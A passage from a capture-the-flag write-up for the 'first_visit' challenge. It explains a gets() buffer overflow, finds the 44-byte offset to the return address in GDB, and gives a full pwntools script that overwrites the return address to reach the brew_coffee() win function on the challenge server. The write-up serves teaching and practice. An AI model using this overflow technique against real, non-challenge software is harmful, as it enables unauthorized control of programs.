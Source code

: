 ```
  puts("Brewing...");
  return;
}
```
From Ghidra, we can see a function named `brew_coffee()`, which is our win function that prints the flag. Since the program uses `gets()`, we can input a large value to overflow the buffer, overwrite the return address, and change the control flow to the `brew_coffee()` function.

By the cyclic( ), we can find the offset to the return address by Analyzing it in GDB .
```
>>> cyclic_find(0x6161616c)  
44
```
the offset is found to be 44 and the brew_coffee( ) function address is 0x0804856b. 

Exploit.py
```
from pwn import *  
context.log_level = 'critical'  
elf = context.binary = ELF('./first_visit')  
  
gdbscript = '''  
break *main  
continue  
'''  
  
if args.REMOTE:  
   p = remote('chals1.apoorvctf.xyz', 3001)  
elif args.GDB:  
    p = gdb.debug(elf.path, gdbscript=gdbscript)  
else:  
   p = process(elf.path)     
  
log.info("\\\\n==== start exploit ====\\\\n")  
p.recvuntil(b"'What will you have?'")  
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaak\x85\x04\x08'  
p.sendline(payload)  
print(p.recv())  
p.interactive()
```
note : the address is in little-endian.

